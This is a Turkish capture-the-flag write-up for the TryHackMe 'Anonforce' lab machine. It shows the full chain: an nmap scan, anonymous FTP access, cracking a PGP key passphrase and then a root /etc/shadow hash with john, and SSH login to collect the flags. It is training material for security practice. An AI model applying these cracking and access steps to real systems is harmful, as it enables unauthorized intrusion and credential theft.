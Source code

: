 ```yaml
---
title: 'TryHackMe | Anonforce WriteUp'
author: appdone
categories: [TryHackMe Challenges]
render_with_liquid: false
---
```


Bu yazımda TryHackMe platformunda bulunan “Anonforce” isimli makineyi çözeceğiz. Yeni başlayanlar için oldukça iyi bir makine olduğunu düşünüyorum. Öncelikle hedef hakkında biraz bilgi edinmek için nmap ile bir tcp port taraması yapacağız.

```console
$ nmap -sV -sC -T4 10.10.186.30
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Mar 17 13:20 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
> | drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| ...
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Tarama sonucunda 21 ve 22 numaralı portların açık olduğunu öğrendik. 21 numaralı portun üzerinde FTP servisi çalışıyor. Bu servisin yanlış yapılandırılmasından dolayı tüm dosya ve dizinleri anonim kullanıcı olarak görüntüleyebiliyoruz.

Öncelikle ftp servisine anonim kullanıcı olarak bağlanalım. Daha sonrada nmap taramasında gördüğümüz notread isimli dizini kontrol edelim.

```console
ftp> ls -la
...
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
...
```

Gördüğünüz üzere bu dizin içerisinde backup.pgp ve private.asc olmak üzere iki dosya bulunuyor. Bu dosyaları indirdikten sonra john aracılığıyla kıracağız. Tabi önce .asc dosyasını john’un anlayabileceği bir kıvama getirmemiz gerekiyor.

```console
$ gpg2john private.asc > hash
$ john hash -w=Desktop/rockyou.txt 
...
x***360          (anonforce)     
...
```

Parolayı elde ettikten sonra private.asc dosyasını parola eşliğinde içe aktarıyoruz.

```console
$ gpg --import private.asc 
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
```

private.asc dosyasını içe aktardıktan sonra backup.pgp dosyasının şifresini çözebilir ve içerisindeki dosyayı görüntüleyebiliriz. backup.pgp dosyası içerisinde /etc/shadow dosyası bulunuyormuş.

```console
$ gpg --decrypt backup.pgp                                                                                                                                                                
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences                                                                                                                       
gpg: encrypted with 512-bit ELG key, ID AA6268D1E6612967, created 2019-08-12                                                                                                                  
      "anonforce <melodias@anonforce.nsa>"
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
...
```

Dosya içerisindeki root kullanıcısının hash’ini alıp john ile kırdıktan sonra en yetkili hesaba sahip olduk.

```console
$ john hash2 -w=Desktop/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******           (?)     
...
```

Geriye sadece bayrakları toplamak kalıyor. SSH servisine bağlandıktan sonra ilk bayrağı /home/meliodas diğerini ise /root dizininde buluyoruz.
